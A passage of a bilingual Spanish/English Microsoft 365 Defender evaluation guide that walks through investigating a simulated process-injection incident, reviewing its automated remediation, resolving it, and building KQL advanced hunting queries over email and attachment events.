<span data-ttu-id="e14e9-222">Después de explorar las diversas alertas de este incidente, vuelva a la página incidente que investigó anteriormente.</span><span class="sxs-lookup"><span data-stu-id="e14e9-222">After exploring the various alerts in this incident, navigate back to the incident page you investigated earlier.</span></span> <span data-ttu-id="e14e9-223">Seleccione la pestaña **dispositivos** en la página incidente para revisar los dispositivos que participan en este incidente tal y como lo ha notificado Microsoft defender para el punto de conexión y Microsoft defender para identidad.</span><span class="sxs-lookup"><span data-stu-id="e14e9-223">Select the **Devices** tab in the incident page to review the devices involved in this incident as reported by Microsoft Defender for Endpoint and Microsoft Defender for Identity.</span></span>

<span data-ttu-id="e14e9-224">Seleccione el nombre del dispositivo en el que se realizó el ataque para abrir la página de la entidad de ese dispositivo específico.</span><span class="sxs-lookup"><span data-stu-id="e14e9-224">Select the name of the device where the attack was conducted, to open the entity page for that specific device.</span></span> <span data-ttu-id="e14e9-225">En esa página, puede ver las alertas que se han desencadenado y los eventos relacionados.</span><span class="sxs-lookup"><span data-stu-id="e14e9-225">In that page, you can see alerts that were triggered and related events.</span></span>

<span data-ttu-id="e14e9-226">Seleccione la pestaña **escala** de tiempo para abrir la escala de tiempo del dispositivo y ver todos los eventos y comportamientos que se observan en el dispositivo en orden cronológico, entremezclado con las alertas que se han generado.</span><span class="sxs-lookup"><span data-stu-id="e14e9-226">Select the **Timeline** tab to open the device timeline and view all events and behaviors observed on the device in chronological order, interspersed with the alerts raised.</span></span>

 

<span data-ttu-id="e14e9-228">La expansión de algunos de los comportamientos más interesantes proporciona detalles útiles, como árboles de procesos.</span><span class="sxs-lookup"><span data-stu-id="e14e9-228">Expanding some of the more interesting behaviors provides useful details, such as process trees.</span></span>

<span data-ttu-id="e14e9-229">Por ejemplo, desplácese hacia abajo hasta encontrar la **inyección de proceso sospechoso** del evento de alerta observada.</span><span class="sxs-lookup"><span data-stu-id="e14e9-229">For example, scroll down until you find the alert event **Suspicious process injection observed**.</span></span> <span data-ttu-id="e14e9-230">Seleccione el **powershell.exe insertado en notepad.exe evento Process** debajo de él, para mostrar el árbol de proceso completo de este comportamiento en el gráfico **entidades del evento** del panel lateral.</span><span class="sxs-lookup"><span data-stu-id="e14e9-230">Select the **powershell.exe injected to notepad.exe process** event below it, to display the full process tree for this behavior under the **Event entities** graph on the side pane.</span></span> <span data-ttu-id="e14e9-231">Use la barra de búsqueda para filtrar si es necesario.</span><span class="sxs-lookup"><span data-stu-id="e14e9-231">Use the search bar for filtering if necessary.</span></span>


### <a name="review-the-user-information-microsoft-cloud-app-security"></a><span data-ttu-id="e14e9-233">Revisión de la información del usuario [Microsoft Cloud App Security]</span><span class="sxs-lookup"><span data-stu-id="e14e9-233">Review the user information [Microsoft Cloud App Security]</span></span>

<span data-ttu-id="e14e9-234">En la página incidente, seleccione la pestaña **usuarios** para mostrar la lista de usuarios implicados en el ataque.</span><span class="sxs-lookup"><span data-stu-id="e14e9-234">On the incident page, select the **Users** tab to display the list of users involved in the attack.</span></span> <span data-ttu-id="e14e9-235">La tabla contiene información adicional acerca de cada usuario, incluida la puntuación de la prioridad de la **investigación** de cada usuario.</span><span class="sxs-lookup"><span data-stu-id="e14e9-235">The table contains additional information about each user, including each user’s **Investigation Priority** score.</span></span>

<span data-ttu-id="e14e9-236">Seleccione el nombre de usuario para abrir la página de perfil del usuario en la que se pueden llevar a cabo más investigaciones.</span><span class="sxs-lookup"><span data-stu-id="e14e9-236">Select the user name to open the user’s profile page where further investigation can be conducted.</span></span> <span data-ttu-id="e14e9-237">[Obtenga más información acerca de la investigación de usuarios arriesgados](https://docs.microsoft.com/cloud-app-security/tutorial-ueba#identify).</span><span class="sxs-lookup"><span data-stu-id="e14e9-237">[Read more about investigating risky users](https://docs.microsoft.com/cloud-app-security/tutorial-ueba#identify).</span></span>
<br>
<span data-ttu-id="e14e9-238"></span><span class="sxs-lookup"><span data-stu-id="e14e9-238"></span></span>


## <a name="automated-investigation-and-remediation"></a><span data-ttu-id="e14e9-239">Investigación y corrección automatizadas</span><span class="sxs-lookup"><span data-stu-id="e14e9-239">Automated investigation and remediation</span></span>
>[!NOTE]
><span data-ttu-id="e14e9-240">Antes de guiarle a través de esta simulación, vea el siguiente vídeo para familiarizarse con el funcionamiento de la Autorrecuperación automatizada, dónde encontrarlo en el portal y cómo puede ayudarle en sus operaciones de seguridad:</span><span class="sxs-lookup"><span data-stu-id="e14e9-240">Before we walk you through this simulation, watch the following video to get familiar with what automated self-healing is, where to find it in the portal, and how it can help in your security operations:</span></span>

>[!VIDEO https://www.microsoft.com/en-us/videoplayer/embed/RE4BzwB]

<span data-ttu-id="e14e9-241">Navegue hasta el incidente en el portal del centro de seguridad 365 de Microsoft.</span><span class="sxs-lookup"><span data-stu-id="e14e9-241">Navigate back to the incident in the Microsoft 365 Security Center portal.</span></span> <span data-ttu-id="e14e9-242">La pestaña **investigaciones** de la página **incidente** muestra las investigaciones automatizadas que Microsoft defender desencadenó para identidad y Microsoft defender para el punto de conexión.</span><span class="sxs-lookup"><span data-stu-id="e14e9-242">The **Investigations** tab in the **Incident** page shows the automated investigations that were triggered by Microsoft Defender for Identity and Microsoft Defender for Endpoint.</span></span> <span data-ttu-id="e14e9-243">La captura de pantalla siguiente muestra solo la investigación automatizada desencadenada por defender para el punto de conexión.</span><span class="sxs-lookup"><span data-stu-id="e14e9-243">The screenshot below displays only the automated investigation triggered by Defender for Endpoint.</span></span> <span data-ttu-id="e14e9-244">De forma predeterminada, defender para el extremo corrige automáticamente los artefactos que se encuentran en la cola, lo que requiere corrección.</span><span class="sxs-lookup"><span data-stu-id="e14e9-244">By default, Defender for Endpoint automatically remediates the artifacts found in the queue, which requires remediation.</span></span>


<span data-ttu-id="e14e9-246">Seleccione la alerta que desencadenó una investigación para abrir la página Detalles de la **investigación** .</span><span class="sxs-lookup"><span data-stu-id="e14e9-246">Select the alert that triggered an investigation to open the **Investigation details** page.</span></span> <span data-ttu-id="e14e9-247">Verá los siguientes detalles:</span><span class="sxs-lookup"><span data-stu-id="e14e9-247">You’ll see the following details:</span></span>
- <span data-ttu-id="e14e9-248">Alertas que han activado la investigación automatizada.</span><span class="sxs-lookup"><span data-stu-id="e14e9-248">Alert(s) that triggered the automated investigation.</span></span>
- <span data-ttu-id="e14e9-249">Usuarios y dispositivos afectados.</span><span class="sxs-lookup"><span data-stu-id="e14e9-249">Impacted users and devices.</span></span> <span data-ttu-id="e14e9-250">Si se encuentran indicadores en dispositivos adicionales, estos dispositivos adicionales también se enumerarán.</span><span class="sxs-lookup"><span data-stu-id="e14e9-250">If indicators are found on additional devices, these additional devices will be listed as well.</span></span>
- <span data-ttu-id="e14e9-251">Lista de evidencias.</span><span class="sxs-lookup"><span data-stu-id="e14e9-251">List of evidence.</span></span> <span data-ttu-id="e14e9-252">Las entidades que se han encontrado y analizado, como archivos, procesos, servicios, controladores y direcciones de red.</span><span class="sxs-lookup"><span data-stu-id="e14e9-252">The entities found and analyzed, such as files, processes, services, drivers, and network addresses.</span></span> <span data-ttu-id="e14e9-253">Estas entidades se analizan en busca de posibles relaciones con la alerta y se califican como benignas o malintencionadas.</span><span class="sxs-lookup"><span data-stu-id="e14e9-253">These entities are analyzed for possible relationships to the alert and rated as benign or malicious.</span></span>
- <span data-ttu-id="e14e9-254">Se han encontrado amenazas.</span><span class="sxs-lookup"><span data-stu-id="e14e9-254">Threats found.</span></span> <span data-ttu-id="e14e9-255">Amenazas conocidas que se encuentran durante la investigación.</span><span class="sxs-lookup"><span data-stu-id="e14e9-255">Known threats that are found during the investigation.</span></span>

>[!NOTE]
><span data-ttu-id="e14e9-256">Según el momento, es posible que la investigación automática todavía se esté ejecutando.</span><span class="sxs-lookup"><span data-stu-id="e14e9-256">Depending on timing, the automated investigation might still be running.</span></span> <span data-ttu-id="e14e9-257">Espere unos minutos hasta que se complete el proceso antes de recopilar y analizar la evidencia y revise los resultados.</span><span class="sxs-lookup"><span data-stu-id="e14e9-257">Wait a few minutes for the process to complete before you collect and analyze the evidence and review the results.</span></span> <span data-ttu-id="e14e9-258">Actualice la página Detalles de la **investigación** para obtener las últimas conclusiones.</span><span class="sxs-lookup"><span data-stu-id="e14e9-258">Refresh the **Investigation details** page to get the latest findings.</span></span>


<span data-ttu-id="e14e9-260">Durante la investigación automatizada, Microsoft defender for Endpoint identificó el proceso de notepad.exe, que se inyectaba como uno de los artefactos que requieren corrección.</span><span class="sxs-lookup"><span data-stu-id="e14e9-260">During the automated investigation, Microsoft Defender for Endpoint identified the notepad.exe process, which was injected as one of the artifacts requiring remediation.</span></span> <span data-ttu-id="e14e9-261">Defender para el punto de conexión detiene automáticamente la inyección del proceso sospechoso como parte de la corrección automatizada.</span><span class="sxs-lookup"><span data-stu-id="e14e9-261">Defender for Endpoint automatically stops the suspicious process injection as part of the automated remediation.</span></span> 

<span data-ttu-id="e14e9-262">Puede ver <i>notepad.exe</i> desaparecer de la lista de procesos en ejecución en el dispositivo de prueba.</span><span class="sxs-lookup"><span data-stu-id="e14e9-262">You can see <i>notepad.exe</i> disappear from the list of running processes on the test device.</span></span>

## <a name="resolve-the-incident"></a><span data-ttu-id="e14e9-263">Resolver el incidente</span><span class="sxs-lookup"><span data-stu-id="e14e9-263">Resolve the incident</span></span>

<span data-ttu-id="e14e9-264">Una vez completada la investigación y confirmada que se va a corregir, cierre el incidente.</span><span class="sxs-lookup"><span data-stu-id="e14e9-264">After the investigation is complete and confirmed to be remediated, close the incident.</span></span>

<span data-ttu-id="e14e9-265">Seleccione **administrar incidente**.</span><span class="sxs-lookup"><span data-stu-id="e14e9-265">Select **Manage incident**.</span></span> <span data-ttu-id="e14e9-266">Establezca el estado para **resolver el incidente** y seleccione la clasificación correspondiente.</span><span class="sxs-lookup"><span data-stu-id="e14e9-266">Set the status to **Resolve incident** and select the relevant classification.</span></span>

<span data-ttu-id="e14e9-267">Cuando se resuelve el incidente, cierra todas las alertas asociadas en el centro de seguridad de Microsoft 365 y en los portales relacionados.</span><span class="sxs-lookup"><span data-stu-id="e14e9-267">When the incident is resolved, it closes all of the associated alerts in Microsoft 365 Security Center and in the related portals.</span></span>

 

<br>
<span data-ttu-id="e14e9-269">Esto engloba la simulación de ataques para los escenarios de administración de incidentes e investigación automatizada y corrección.</span><span class="sxs-lookup"><span data-stu-id="e14e9-269">This wraps up the attack simulation for the incident management and automated investigation and remediation scenarios.</span></span> <span data-ttu-id="e14e9-270">La siguiente simulación le guiará a través de la búsqueda proactiva de amenazas para archivos potencialmente malintencionados.</span><span class="sxs-lookup"><span data-stu-id="e14e9-270">The next simulation will take you through proactive threat hunting for potentially malicious files.</span></span> 

## <a name="advanced-hunting-scenario"></a><span data-ttu-id="e14e9-271">Escenario de caza avanzado</span><span class="sxs-lookup"><span data-stu-id="e14e9-271">Advanced hunting scenario</span></span>

>[!NOTE]
><span data-ttu-id="e14e9-272">Antes de guiarle a través de la simulación, vea el siguiente vídeo para comprender los conceptos de la caza avanzada, consulte dónde puede encontrarlo en el portal y sepa cómo puede ayudarle en sus operaciones de seguridad:</span><span class="sxs-lookup"><span data-stu-id="e14e9-272">Before we walk you through the simulation, watch the following video to understand the advanced hunting concepts, see where you can find it in the portal, and know how it can help you in your security operations:</span></span>

>[!VIDEO https://www.microsoft.com/videoplayer/embed/RE4Bp7O]

### <a name="hunting-environment-requirements"></a><span data-ttu-id="e14e9-273">Requisitos del entorno de búsqueda</span><span class="sxs-lookup"><span data-stu-id="e14e9-273">Hunting environment requirements</span></span>
<span data-ttu-id="e14e9-274">Hay un solo buzón interno y un dispositivo necesarios para este escenario.</span><span class="sxs-lookup"><span data-stu-id="e14e9-274">There's a single internal mailbox and device required for this scenario.</span></span> <span data-ttu-id="e14e9-275">También necesitará una cuenta de correo electrónico externa para enviar el mensaje de prueba.</span><span class="sxs-lookup"><span data-stu-id="e14e9-275">You'll also need an external email account to send the test message.</span></span>

1.  <span data-ttu-id="e14e9-276">Compruebe que el inquilino haya [habilitado Microsoft 365 defender](https://docs.microsoft.com/microsoft-365/security/mtp/mtp-enable#starting-the-service).</span><span class="sxs-lookup"><span data-stu-id="e14e9-276">Verify that your tenant has [enabled Microsoft 365 Defender](https://docs.microsoft.com/microsoft-365/security/mtp/mtp-enable#starting-the-service).</span></span>
2.  <span data-ttu-id="e14e9-277">Identifique el buzón de correo de destino que se usará para recibir correo electrónico.</span><span class="sxs-lookup"><span data-stu-id="e14e9-277">Identify a target mailbox to be used for receiving email.</span></span>
    <span data-ttu-id="e14e9-278">a.</span><span class="sxs-lookup"><span data-stu-id="e14e9-278">a.</span></span>  <span data-ttu-id="e14e9-279">Este buzón debe ser supervisado por Microsoft defender para Office 365 b.</span><span class="sxs-lookup"><span data-stu-id="e14e9-279">This mailbox must be monitored by Microsoft Defender for Office 365 b.</span></span>  <span data-ttu-id="e14e9-280">El dispositivo del requerimiento 3 necesita tener acceso a este buzón</span><span class="sxs-lookup"><span data-stu-id="e14e9-280">The device from requirement 3 needs to access this mailbox</span></span>
3.  <span data-ttu-id="e14e9-281">Configurar un dispositivo de prueba: a.</span><span class="sxs-lookup"><span data-stu-id="e14e9-281">Configure a test device: a.</span></span>  <span data-ttu-id="e14e9-282">Asegúrese de que usa la versión 1903 o posterior de Windows 10.</span><span class="sxs-lookup"><span data-stu-id="e14e9-282">Make sure you are using Windows 10 version 1903 or later version.</span></span>
    <span data-ttu-id="e14e9-283">b.</span><span class="sxs-lookup"><span data-stu-id="e14e9-283">b.</span></span>  <span data-ttu-id="e14e9-284">Una el dispositivo de prueba al dominio de prueba.</span><span class="sxs-lookup"><span data-stu-id="e14e9-284">Join the test device to the test domain.</span></span>
    <span data-ttu-id="e14e9-285">c.</span><span class="sxs-lookup"><span data-stu-id="e14e9-285">c.</span></span>  <span data-ttu-id="e14e9-286">[Activa el antivirus de Windows Defender](https://docs.microsoft.com/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features).</span><span class="sxs-lookup"><span data-stu-id="e14e9-286">[Turn on Windows Defender Antivirus](https://docs.microsoft.com/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features).</span></span> <span data-ttu-id="e14e9-287">Si tienes problemas para habilitar antivirus de Windows Defender, consulta [este tema de solución de problemas](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy).</span><span class="sxs-lookup"><span data-stu-id="e14e9-287">If you are having trouble enabling Windows Defender Antivirus, see [this troubleshooting topic](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy).</span></span>
    <span data-ttu-id="e14e9-288">d.</span><span class="sxs-lookup"><span data-stu-id="e14e9-288">d.</span></span>  <span data-ttu-id="e14e9-289">[Incorporado a Microsoft defender para el punto de conexión](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints).</span><span class="sxs-lookup"><span data-stu-id="e14e9-289">[Onboard to Microsoft Defender for Endpoint](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints).</span></span>

### <a name="run-the-simulation"></a><span data-ttu-id="e14e9-290">Ejecutar la simulación</span><span class="sxs-lookup"><span data-stu-id="e14e9-290">Run the simulation</span></span>
1.  <span data-ttu-id="e14e9-291">Desde una cuenta de correo electrónico externa, envíe un correo electrónico al buzón identificado en el paso 2 de la sección requisitos del entorno de prueba.</span><span class="sxs-lookup"><span data-stu-id="e14e9-291">From an external email account, send an email to the mailbox identified in step 2 of the test environment requirements section.</span></span> <span data-ttu-id="e14e9-292">Incluya datos adjuntos que se permitirán a través de cualquier directiva de filtro de correo electrónico existente.</span><span class="sxs-lookup"><span data-stu-id="e14e9-292">Include an attachment that will be allowed through any existing email filter policies.</span></span>  <span data-ttu-id="e14e9-293">Este archivo no tiene que ser malintencionado ni un ejecutable.</span><span class="sxs-lookup"><span data-stu-id="e14e9-293">This file does not need to be malicious or an executable.</span></span> <span data-ttu-id="e14e9-294">Los tipos de archivo sugeridos son <i>. pdf</i>, <i>. exe</i> (si se permite) o documento de Office como un archivo de Word.</span><span class="sxs-lookup"><span data-stu-id="e14e9-294">Suggested file types are <i>.pdf</i>, <i>.exe</i> (if allowed), or Office document such as a Word file.</span></span>
2.  <span data-ttu-id="e14e9-295">Abra el correo electrónico enviado desde el dispositivo configurado tal y como se define en el paso 3 de la sección requisitos del entorno de prueba.</span><span class="sxs-lookup"><span data-stu-id="e14e9-295">Open the sent email from the device configured as defined in step 3 of the test environment requirements section.</span></span> <span data-ttu-id="e14e9-296">Abra los datos adjuntos o guarde el archivo en el dispositivo.</span><span class="sxs-lookup"><span data-stu-id="e14e9-296">Either open the attachment or save the file to the device.</span></span>


<span data-ttu-id="e14e9-297">**Ir a la caza**</span><span class="sxs-lookup"><span data-stu-id="e14e9-297">**Go hunting**</span></span>
1.  <span data-ttu-id="e14e9-298">Abra el portal de security.microsoft.com.</span><span class="sxs-lookup"><span data-stu-id="e14e9-298">Open the security.microsoft.com portal.</span></span>

2.  <span data-ttu-id="e14e9-299">Navegue a la **caza > la caza avanzada**.</span><span class="sxs-lookup"><span data-stu-id="e14e9-299">Navigate to **Hunting > Advanced hunting**.</span></span>

     

3.  <span data-ttu-id="e14e9-301">Cree una consulta que se inicie al recopilar eventos de correo electrónico.</span><span class="sxs-lookup"><span data-stu-id="e14e9-301">Build a query that starts by gathering email events.</span></span>

    1.  <span data-ttu-id="e14e9-302">En el panel consulta, seleccione nuevo.</span><span class="sxs-lookup"><span data-stu-id="e14e9-302">From the query pane, select New.</span></span>
    
    1.  <span data-ttu-id="e14e9-303">Haga doble clic en la tabla EmailEvents del esquema.</span><span class="sxs-lookup"><span data-stu-id="e14e9-303">Double-click on the EmailEvents table from the schema.</span></span>

        ```
        EmailEvents 
        ```                                        

    1.  <span data-ttu-id="e14e9-304">Cambie el período de tiempo a las últimas 24 horas.</span><span class="sxs-lookup"><span data-stu-id="e14e9-304">Change the time frame to the last 24 hours.</span></span> <span data-ttu-id="e14e9-305">Suponiendo que el correo electrónico que envió cuando ejecutó la simulación anterior se encontraba en las últimas 24 horas, en caso contrario, cambie el intervalo de tiempo.</span><span class="sxs-lookup"><span data-stu-id="e14e9-305">Assuming the email you sent when you ran the simulation above was in the past 24 hours, otherwise change the time frame.</span></span>
    
         

    1.  <span data-ttu-id="e14e9-308">Ejecutar la consulta.</span><span class="sxs-lookup"><span data-stu-id="e14e9-308">Run the query.</span></span>  <span data-ttu-id="e14e9-309">Puede tener muchos resultados en función del entorno de la prueba piloto.</span><span class="sxs-lookup"><span data-stu-id="e14e9-309">You may have many results depending on the environment for the pilot.</span></span>  

        > [!NOTE]
        > <span data-ttu-id="e14e9-310">Consulte el paso siguiente para ver las opciones de filtrado para limitar la devolución de datos.</span><span class="sxs-lookup"><span data-stu-id="e14e9-310">See the next step for filtering options to limit data return.</span></span>

         

        > [!NOTE]
        > <span data-ttu-id="e14e9-312">La búsqueda avanzada muestra los resultados de la consulta como datos tabulares.</span><span class="sxs-lookup"><span data-stu-id="e14e9-312">Advanced hunting displays query results as tabular data.</span></span> <span data-ttu-id="e14e9-313">También puede optar por ver los datos en otros tipos de formato, como gráficos.</span><span class="sxs-lookup"><span data-stu-id="e14e9-313">You can also opt to view the data in other format types such as charts.</span></span>    

    1.  <span data-ttu-id="e14e9-314">Mire los resultados y vea si puede identificar el correo electrónico que ha abierto.</span><span class="sxs-lookup"><span data-stu-id="e14e9-314">Look at the results and see if you can identify the email you opened.</span></span>  <span data-ttu-id="e14e9-315">El mensaje puede tardar hasta dos horas en aparecer en la caza avanzada.</span><span class="sxs-lookup"><span data-stu-id="e14e9-315">It may take up to 2 hours for the message to show up in advanced hunting.</span></span> <span data-ttu-id="e14e9-316">Si el entorno de correo electrónico es grande y hay muchos resultados, es posible que desee usar la **opción Mostrar filtros** para buscar el mensaje.</span><span class="sxs-lookup"><span data-stu-id="e14e9-316">If the email environment is large and there are many results, you might want to use the **Show Filters option** to find the message.</span></span> 

           <span data-ttu-id="e14e9-317">En el ejemplo, el correo electrónico se envió desde una cuenta de Yahoo.</span><span class="sxs-lookup"><span data-stu-id="e14e9-317">In the sample, the email was sent from a Yahoo account.</span></span> <span data-ttu-id="e14e9-318">Haga clic en el **+** icono situado junto a **Yahoo.com** en la sección SenderFromDomain y, a continuación, haga clic en **aplicar** para agregar el dominio seleccionado a la consulta.</span><span class="sxs-lookup"><span data-stu-id="e14e9-318">Click the **+** icon beside **yahoo.com** under the SenderFromDomain section and then click **Apply** to add the selected domain to the query.</span></span>  <span data-ttu-id="e14e9-319">Use el dominio o la cuenta de correo electrónico que se usó para enviar el mensaje de prueba en el paso 1 de ejecutar la simulación para filtrar los resultados.</span><span class="sxs-lookup"><span data-stu-id="e14e9-319">Use the domain or email account that was used to send the test message in step 1 of Run the Simulation to filter your results.</span></span>  <span data-ttu-id="e14e9-320">Vuelva a ejecutar la consulta para obtener un conjunto de resultados más pequeños para comprobar que se ve el mensaje de la simulación.</span><span class="sxs-lookup"><span data-stu-id="e14e9-320">Run the query again to get a smaller result set to verify that you see the message from the simulation.</span></span>
   
         

        ```console
        EmailEvents 
        | where SenderMailFromDomain == "yahoo.com"
        ```

    1.  <span data-ttu-id="e14e9-323">Haga clic en las filas resultantes de la consulta para que pueda inspeccionar el registro.</span><span class="sxs-lookup"><span data-stu-id="e14e9-323">Click the resulting rows from the query so you can inspect the record.</span></span>
   
         

4.  <span data-ttu-id="e14e9-325">Ahora que ya ha comprobado que puede ver el correo electrónico, agregue un filtro para los datos adjuntos.</span><span class="sxs-lookup"><span data-stu-id="e14e9-325">Now that you have verified that you can see the email, add a filter for the attachments.</span></span> <span data-ttu-id="e14e9-326">Céntrese en todos los correos electrónicos con datos adjuntos en el entorno.</span><span class="sxs-lookup"><span data-stu-id="e14e9-326">Focus on all emails with attachments in the environment.</span></span> <span data-ttu-id="e14e9-327">Para este escenario, céntrese en los correos electrónicos entrantes, no en los que se envían desde el entorno.</span><span class="sxs-lookup"><span data-stu-id="e14e9-327">For this scenario, focus on inbound emails, not those that are being sent out from your environment.</span></span> <span data-ttu-id="e14e9-328">Quite los filtros que haya agregado para buscar el mensaje y agregar "| donde **AttachmentCount > 0** y **EmailDirection**  ==  **"entrante" "**</span><span class="sxs-lookup"><span data-stu-id="e14e9-328">Remove any filters you have added to locate your message and add “| where **AttachmentCount > 0** and **EmailDirection** == **“Inbound””**</span></span>

    <span data-ttu-id="e14e9-329">La siguiente consulta le mostrará el resultado con una lista más corta que la consulta inicial para todos los eventos de correo electrónico:</span><span class="sxs-lookup"><span data-stu-id="e14e9-329">The following query will show you the result with a shorter list than your initial query for all email events:</span></span>

    ```console
    EmailEvents 
    | where AttachmentCount > 0 and EmailDirection == "Inbound"

    ```

5.  <span data-ttu-id="e14e9-330">A continuación, incluya la información sobre los datos adjuntos (por ejemplo, el nombre de archivo, los hash) en el conjunto de resultados.</span><span class="sxs-lookup"><span data-stu-id="e14e9-330">Next, include the information about the attachment (such as: file name, hashes) to your result set.</span></span> <span data-ttu-id="e14e9-331">Para ello, únase a la tabla **EmailAttachmentInfo** .</span><span class="sxs-lookup"><span data-stu-id="e14e9-331">To do so, join the **EmailAttachmentInfo** table.</span></span> <span data-ttu-id="e14e9-332">Los campos comunes que se usan para la combinación, en este caso son **NetworkMessageId** y **RecipientObjectId**.</span><span class="sxs-lookup"><span data-stu-id="e14e9-332">The common fields to use for joining, in this case are **NetworkMessageId** and **RecipientObjectId**.</span></span>

    <span data-ttu-id="e14e9-333">La siguiente consulta también incluye una línea adicional "| **Project-Rename EmailTimestamp = timestamp**"que le ayudarán a identificar qué marca de tiempo está relacionada con el correo electrónico frente a las marcas de tiempo relacionadas con acciones de archivo que agregará en el paso siguiente.</span><span class="sxs-lookup"><span data-stu-id="e14e9-333">The following query also includes an additional line “| **project-rename EmailTimestamp=Timestamp**” that'll help identify which timestamp was related to the email versus timestamps related to file actions that you'll add in the next step.</span></span>

    ```console
    EmailEvents 
    | where AttachmentCount > 0 and EmailDirection == "Inbound"
    | project-rename EmailTimestamp=Timestamp 
    | join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId
    ```

6.  <span data-ttu-id="e14e9-334">A continuación, use el valor **SHA256** de la tabla **EmailAttachmentInfo** para buscar **DeviceFileEvents** (acciones de archivo que se han producido en el extremo) para ese hash.</span><span class="sxs-lookup"><span data-stu-id="e14e9-334">Next, use the **SHA256** value from the **EmailAttachmentInfo** table to find **DeviceFileEvents** (file actions that happened on the endpoint) for that hash.</span></span>  <span data-ttu-id="e14e9-335">El campo común aquí será el hash SHA256 para los datos adjuntos.</span><span class="sxs-lookup"><span data-stu-id="e14e9-335">The common field here will be the SHA256 hash for the attachment.</span></span>

